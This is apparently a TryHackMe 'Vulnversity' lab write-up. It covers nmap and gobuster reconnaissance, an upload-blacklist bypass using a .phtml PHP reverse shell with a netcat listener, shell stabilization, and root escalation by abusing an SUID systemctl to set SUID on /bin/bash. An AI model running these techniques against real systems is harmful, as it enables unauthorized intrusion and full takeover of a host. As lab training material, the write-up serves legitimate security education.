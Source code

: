 # TryHackMe-Vulnversity

#NMAP

```
nmap -sC -sV $IP
```

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-15 20:30 EDT                                                                              [11/18]
Nmap scan report for 10.10.233.54                                                                                                                   
Host is up (0.17s latency).                                               
Not shown: 994 closed ports                                               
PORT     STATE SERVICE     VERSION                                                                                                                  
21/tcp   open  ftp         vsftpd 3.0.3                                                                                                             
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)                                                             
| ssh-hostkey:                                                            
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)                                                                                      
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)                                                                                     
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)                                                                                   
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                                                              
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)                                                                          
3128/tcp open  http-proxy  Squid http proxy 3.5.12                        
|_http-server-header: squid/3.5.12                                        
|_http-title: ERROR: The requested URL could not be retrieved                                                                                       
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))                                                                                           
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                                        
|_http-title: Vuln University                                             
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel                                                                
                                                                          
Host script results:                 
|_clock-skew: mean: -7h39m58s, deviation: 2h18m34s, median: -8h59m59s                                                                               
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)                                                   
| smb-os-discovery:                  
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)                                                                                                           
|   Computer name: vulnuniversity                                                                                                                   
|   NetBIOS computer name: VULNUNIVERSITY\x00                             
|   Domain name: \x00                
|   FQDN: vulnuniversity             
|_  System time: 2020-09-15T11:30:49-04:00                                
| smb-security-mode:                 
|   account_used: guest              
|   authentication_level: user                                            
|   challenge_response: supported      
|_  message_signing: disabled (dangerous, but default)                                                                                              
| smb2-security-mode:                
|   2.02:                            
|_    Message signing enabled but not required                            
| smb2-time:                         
|   date: 2020-09-15T15:30:50                                             
|_  start_date: N/A                  

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                      
Nmap done: 1 IP address (1 host up) scanned in 45.13 seconds                            
````

## Dirbuster

```
gobuster dir -u http://10.10.233.54:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.233.54:3333
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/15 20:40:18 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
```

`/internal` is a page where we can upload an image and through `/images` we can view it.

## Burpsuite

Now we can not upload a php reverse shell due to it's extension is not allowed so we can make wordlist of possible php extension to by pass blacklist

```
.php
.php3
.php4
.php5
.phphtml
.phpgif
.gifphp
```

`.phtml` is the only extension that is accepted so we are going to change our reverse shell's extension and then upload and set a net cat listener on our terminal 

```
nc -lvp 5555

```

And access the reverse shell on the web server 

```
http://10.10.233.54:3333/internal/uploads/php-reverse-shell.phtml
```

## Stabilize Shell

First get a bash with  `python -c 'import pty; pty.spawn("/bin/bash")'` Then

1. ctrl+z
2. stty raw -echo
3. type fg and press enter x2.

You will get a stabilize shell with auto tab complete and then `export TERM=xterm ` for using clear command.


## Privilege Escalation

Now we have to find a file which has SUID means which can set SUID permissions so we can issue a command to find these files

`find / -perm /4000`

And we will find `sytemctl` which can set SUID 

Now search for systemctl on `GTFOBINS` and slightly modifying the command `chmod +s /bin/bash` it will set SUID on bash to run as root

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

Now run the command `bash-p` You will be root.
